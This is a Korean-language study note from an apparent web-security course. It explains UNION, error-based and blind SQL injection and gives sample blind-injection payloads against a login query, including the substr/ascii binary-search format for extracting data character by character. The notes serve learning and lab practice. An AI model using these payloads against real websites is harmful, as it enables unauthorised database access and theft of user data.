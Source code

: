 
1. sql 질의문 결과가 화면에 출력되는 경우 : UNION SQL 
2. 에러메시지가 화면에 출력되는 경우 : Error Based SQL 
3. Blind SQLi
> 아이디 중복 검사 , 로그인
`select pass form member where id='normaltic'`
`normaltic' and ('1'='2') and '1'='1` -> 존재하지 않는 아이디 입니다. 
`normaltic' and ('1'='1') and '1'='1` -> 존재하는 아이디 입니다. 

---
1. SQL Injection 여부 
normaltic' and ('1'='1') and '1'='1 참 or 거짓 판단 
2. select 문 사용 가능 여부 
normaltic' and ((select 'test')='test') and '1'='1
3. 공격 format 
normaltic' and (__조건__) and '1'='1

substr('test',1,1)=> 't' 
substr((__SQL__),1,1)

업다운 게임을 하듯이 1~100 까지 찾는다면 50을 부르는게 편하듯이 

문자 -> 숫자 = 아스키 문자를 활용하여 
ascii(substr((__SQL__),1,1)>0) -> 공격 페이로드 

---
7주차 
1. Error Based SQLi 정리 & 연습문제 풀기 [SQL Injection (Error Based SQLi Basic)]
2. Blind SQli 정리 & 문제 
- write up 

3. 웹 사이트 개발 과제 
> 게시판 리스트 보여주는 페이지 
- 게시글 상세 내용 보여주는 페이지 
- 게이글 작성 페이지 


---

## 6주차 복습 [ UNION SQL Injection ]

### UNION SQL Injection이란?
UNION SQL Injection은 게시글 검색, 주소 검색 등 사용자의 입력값을 기반으로 쿼리를 수행하고 결과를 웹 페이지에 출력하는 기능에서 자주 발생하는 SQL Injection 기법입니다.

<img width="1193" alt="Image" src="https://github.com/user-attachments/assets/196cdb13-66c3-4a1b-ba6c-1baf9fd2f34b" />

### UNION SQL Injection 공격 전 필수 확인 사항
공격자가 SQL Injection 취약점이 의심되는 검색 입력창에 대해 UNION SELECT를 시도하기 전에 반드시 확인해야 하는 것이 두 가지 있습니다.
- 기존 쿼리문의 컬럼 수
- 각 컬럼의 데이터 타입

### 🧪 공격 단계 요약
✅ 1단계: 취약점 탐지
' 또는 || 같은 특수문자를 입력해 SQL 문법 오류 유무 확인.
- 오류 메시지로부터 취약성 존재 여부 판단.
